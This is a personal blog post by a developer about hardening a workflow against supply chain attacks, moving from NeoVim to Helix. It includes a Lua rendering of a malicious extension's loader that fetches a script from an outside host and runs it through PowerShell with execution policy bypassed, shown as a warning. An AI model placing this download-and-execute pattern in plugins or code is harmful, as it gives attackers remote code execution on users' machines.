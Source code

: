 ```yaml
---
title: My current development workflow and tools
date: 2025-07-24
author: Jose Storopoli
description: How supply chain devastating attacks made me change my mind recently.
tags: [programming, security]
---
```


![Ulysses and the Sirens](/images/ulisses-and-the-sirens.jpg)

I work with what I call "mission critical" software,
where we have the assumption that something really bad happens
when software crashes or misbehaves.
These include not only my current employer,
[Alpen Labs](https://alpenlabs.io),
but also a lot of open source software that I maintain
and contribute to, including my dearest [`dead-man-switch`](https://crates.io/crates/dead-man-switch),
and important ecosystem dependencies like
[`rust-bitcoin`](https://rust-bitcoin.org) and [BDK](https://bitcoindevkit.org).

My threat model encompass threats from nation-states like North Korea,
and major hacker groups.
Hence, I have a fairly tinfoil-hat approach on my professional role
and workflow.

## Don't leave private keys on "hot devices"

My main security measure is to move all private keys to hardware devices.
All my SSH and PGP keys live in hardware tokens like YubiKeys,
behind a PIN and a touch confirmation.
This pairs well with PGP signing all your commits
and flagging unsigned commits as unverified.
With this approach, if my computer is compromised,
it is really hard, dare I say impossible,
to produce a signed commit or to use a SSH key,
since it depends on:

1. Hardware device plugged in
1. Correct PIN entry (note that I use the KDF setting for my PIN to mitigate USB passive listening attacks)
1. Touch confirmation

As a bonus, almost all my accounts have a [FIDO](https://fidoalliance.org/)
2FA.

## Supply chain attacks

I was baffled by a recent supply chain attack that happened.
Someone lost USD 500,000 for using cursor extensions.
I encourage you to take a look at the full report
[here](https://securelist.com/open-source-package-for-cursor-ai-turned-into-a-crypto-heist/116908/),
the discussion at
[reddit](https://www.reddit.com/r/vscode/comments/1lxrxp9/someone_just_lost_500000_for_using_cursor/)
and also taking a look at this [YouTube video](https://youtu.be/CqKZhYsjw6M)
that does a post-morten on the whole thing:

<style>
  .embed-container {
    position: relative;
    padding-bottom: 56.25%;
    height: 0;
    overflow: hidden;
    max-width: 100%;
  }
  .embed-container iframe,
  .embed-container object,
  .embed-container embed {
    position: absolute;
    top: 0;
    left: 0;
    width: 100%;
    height: 100%;
  }
</style>
<div class="embed-container">
  <iframe
    src="https://www.youtube.com/embed/CqKZhYsjw6M"
    frameborder="0"
    allowfullscreen
  ></iframe>
</div>

What surprised me in this supply chain attack is how legit was
the malicious extension.
I might have fallen for this,
of course with the caveat that maybe I would not lose $500k.
First, I don't have that kind of money,
and second, remember, my private keys never touches or resides in my computer;
i.e. my private keys are never "hot", always "cold".

I don't use VS Code or Cursor, and I can go on and on why that
fucking thing is way too bloated and a spyware;
but you can check my [soydev post](/posts/2023-11-10-soydev.html)
or my [JavaScript Antichrist rant](/posts/2024-11-10-road-less-travelled.html#avoiding-javascript).
But I did use NeoVim with a shitload of plugins[^zed].
The issue with NeoVim plugins is that all of plugin managers
blindly fetch code from GitHub repos,
without any attestation (PGP verification)
or integrity (SHA hash verification) measures.

[^zed]: {-} Note that this is not exclusively to VS Code or NeoVim,
  [Zed](https://zed.dev) also has external plugin support that blindly
  fetches code from GitHub repos without any checks that can execute
  arbitrary code in your computer.

The following Lua code is a direct translation of the evil JavaScript code
that the malicious extension had:

```lua
-- WARNING: This is malicious code pattern - DO NOT USE

local http = require("socket.http")
local io = require("io")
local os = require("os")

-- Function to download content from URL
function downloadScript(url)
    local response, status = http.request(url)
    if status == 200 then
        return response
    else
        return nil
    end
end

-- Function to execute PowerShell script
function executePowerShell(script)
    -- Write script to temporary file
    local tempFile = os.tmpname() .. ".ps1"
    local file = io.open(tempFile, "w")
    if file then
        file:write(script)
        file:close()

        -- Execute PowerShell script
        os.execute("powershell.exe -ExecutionPolicy Bypass -File \"" .. tempFile .. "\"")
      
        -- Clean up
        os.remove(tempFile)
    end
end

-- Main malicious logic
local maliciousUrl = "https://angelic.su/files/1.txt"
local script = downloadScript(maliciousUrl)

if script then
    executePowerShell(script)
end
```

Put this in any NeoVim plugin and BOOM! get pwned.
This is not hard to do since all it takes is a single malicious commit
in a plugin that is not so closely watched.
Pair that with the fact that one of the most popular NeoVim distributions,
[LazyVim](https://lazyvim.org),
by default configures the package manager to [update plugins automatically
**without notifying** the user](https://github.com/LazyVim/starter/blob/803bc181d7c0d6d5eeba9274d9be49b287294d99/lua/config/lazy.lua#L34-L37):

```lua
checker = {
  enabled = true, -- check for plugin updates periodically
  notify = false, -- notify on update
}, -- automatically check for plugin updates
```

and we have a time-bomb recipe for disaster.

Given these supply chain risks and my need for secure development practices,
I decided to overhaul my entire development workflow
to minimize external dependencies and attack vectors.

## Enter Helix

I made quite a few changes recently in my environment.
First, I cleaned up all my installed packages to the absolute bare minimum.
I use a MacBook as my main development machine.
I am trusting two package managers:
[Homebrew](https://brew.sh),
and [Nix](https://search.nixos.org).
Both of them have plenty of eyes in centralized GitHub repositories that act
as the main listing of packages, and perform integrity checks to mitigate
supply chain attacks.
I am fine with using both Homebrew and Nix as my package managers,
and being extra judicious on which packages I install[^nix].

[^nix]: {-} If I ever need a package or dependency that is seldom used,
  I can move that to a [Nix flake](https://wiki.nixos.org/wiki/Flakes)
  or a [Nix devshell](https://wiki.nixos.org/wiki/Development_environment_with_nix-shell);
  or just use it with `nix-shell -p foo`.

The second big change, was to move away from NeoVim and replace it for
[Helix](https://helix-editor.com).
[Helix](https://helix-editor.com) is a Rust-based modal editor very similar to NeoVim.
However, Helix is complete. It comes with all batteries included:
LSP, file picker, status line, treesitter integration, autoformatting, surround, etc.
Contrary to NeoVim, you don't need to install a shitload of plugins to make it
bare usable.
It is amazing straight out of the box.

I was already a happy Helix user in the past,
but I fell for NeoVim's plugins' siren call.
I did not tie myself to a mast like
[Ulysses](https://en.wikipedia.org/wiki/The_Sirens_and_Ulysses).
I've replaced my 1,000-line Lua [NeoVim config](https://github.com/storopoli/nvim)
for a very simple 61 lines of [Helix `config.toml`](https://gist.github.com/storopoli/e63b10dafdcc764f2bfe84f75c61e20a).

This tiny Helix configuration covers all my needs that I had to resort with
NeoVim plugins.
I had to add custom commands to cover two things that I've missed when switching:

1. **Copying permalinks to GitHub**.
   In NeoVim, I've solved this by using a plugin called
   [`gitlinker.nvim`](https://github.com/linrongbin16/gitlinker.nvim).
   Alas, not a problem, I asked Claude Code to try to reproduce the behavior,
   prompting it to take a look at `gitlinker.nvim`, and it produced this beautiful
   `sed` and `git` dark arts concoction that I can understand what is doing
   and it would take probably lots of hours for myself alone to come up with this
   solution:

   ```toml
   [keys.normal.space]
   o = [":sh echo \"$(git remote get-url origin | sed 's/\\.git$//' | sed 's/git@github\\.com:/https:\\/\\/github\\.com\\//')/blob/$(git rev-parse HEAD)/%{buffer_name}#L%{selection_line_start}-L%{selection_line_end}\" | pbcopy"]

   [keys.select.space]
   o = [":sh echo \"$(git remote get-url origin | sed 's/\\.git$//' | sed 's/git@github\\.com:/https:\\/\\/github\\.com\\//')/blob/$(git rev-parse HEAD)/%{buffer_name}#L%{selection_line_start}-L%{selection_line_end}\" | pbcopy"]
   ```

   I could make this more robust to varying `origin` sources like `codeberg.org`,
   or to Linux versus MacOS clipboard managers,
   but this is fine and addresses 99% of my needs.

1. **Reset git hunks**.
   In NeoVim, I used [`gitsigns.nvim`](https://github.com/lewis6991/gitsigns.nvim)
   to have friendly cues in the line gutter about version-controlled changes
   in my current buffer.
   Helix has that already built-in: no plugin needed.
   However, it does not expose a very common command that I use as a keybind:
   "reset hunk".
   No problem, I can just map the damn thing:

   ```toml
   [keys.normal]
   C-g = ":reset-diff-change"

   [keys.select]
   C-g = ":reset-diff-change"
   ```

Finally, there are two things that Helix brings to the table that I could not
find in NeoVim, even with plugins:

1. **Modal action philosophy**.
  In Vim and NeoVim, the philosophy is action then movement.
  First you specify an _action_, then you specify _what range_ you want to perform that action.
  For example "delete a word" is `dw`.
  In Helix, it is the opposite.
  First you specify a _range_ then _what action_ you want to perform.
  The example above, "delete a word", is `wd`.
  This is very nice because you get instant feedback loop on the range,
  and the action comes with no surprises.
  This flipped approach makes more intuitive sense to me.
1. **Local configurations**.
  Helix will scan for language and editor configurations in a `.helix/` sub-directory
  in your root directory.
  This is awesome, because you can add custom configuration for LSP and autoformatters,
  or any other language setting in a `.helix/languages.toml` file;
  or custom editor configurations in a `.helix/config.toml` file.
  This is paramount when comparing to NeoVim,
  where the [`exrc`](https://neovim.io/doc/user/starting.html#exrc) feature
  was always buggy and never worked for me without constant tinkering.

## Conclusion

Supply chain attacks are a real and growing threat in our development ecosystem.
By reducing external dependencies, using hardware tokens for authentication,
and choosing tools with fewer plugin requirements,
we can significantly reduce our attack surface.
The shift from NeoVim to Helix represents more than just a tool change ---
it's a security-conscious decision that maintains productivity while minimizing risk.
